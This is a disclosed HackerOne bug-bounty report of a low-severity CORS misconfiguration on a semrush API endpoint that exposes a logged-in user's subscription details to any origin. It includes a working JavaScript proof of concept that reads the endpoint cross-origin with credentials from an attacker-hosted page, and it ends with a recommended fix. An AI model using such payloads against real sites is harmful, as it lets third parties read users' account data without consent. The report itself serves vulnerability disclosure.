 # CORS misconfiguration which leads to the disclosure of certain data concerning the user.

## Report Details
- **Report ID**: 769058
- **URL**: https://hackerone.com/reports/769058
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-01-06T22:03:53.071Z
- **Disclosed**: 2020-02-15T18:42:05.327Z

## Reporter
- **Username**: a_d_a_m
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
# INTRODUCTION

## _I used an account to search for this vulnerability:_

id: 5407773	email: adam-bugbounty@anosimple.com

## _IP used:_
__2a01:e34:ec2a:9240:7d25:26c3:1449:bfe7__

## _endpoint URL:_
https://www.semrush.com/content-paywall/api/accesslevel

## _Summary:_
CORS policy too permissive.

# EXPLOITATION

## _Description of Security Issue:_ 
When we navigate on semrush we are led to make a request like this: █████
This request returns a JSON response with 4 elements (about Subscription):
- __product_group :__    ex: FREE , GUEST , ....

- __used_trial :__ If the user has used his trial period. ex: false , true , null (if he's a guest)

- __is_custom :__ I didn't understand this element.

- __upgraded :__ I think that says if the user has upgraded their account.

The problem is in the fact that when you send an origin that is not controlled by semrush the server still allows you to send cross-origin query.

## _Steps needed to reproduce bug:_

 - Put this payload on your website:

```javascript

var invocation = new XMLHttpRequest();

  invocation.onreadystatechange = function() {
    if (invocation.readyState == XMLHttpRequest.DONE) {
      alert(invocation.response);
    }
  }

function cors(){
  if(invocation) {
    invocation.open('GET', "https://www.semrush.com/content-paywall/api/accesslevel", true);
    invocation.withCredentials = true;
    invocation.send(); 
  }
}

cors();

```

- Connect you on semrush and visit the evil website

- Congratulations your website has stolen some of your data!

# FIX THE BUG

__Stop setting Access-Control-Allow-Origin: .... and Access-Control-Allow-Credentials: true when the origin is not known.__

Thank you and I remain at your disposal if necessary
Have a nice evening :)

## Impact

This allows all sites to access certain data about visitors who have semrush.

## Attachments
No attachments
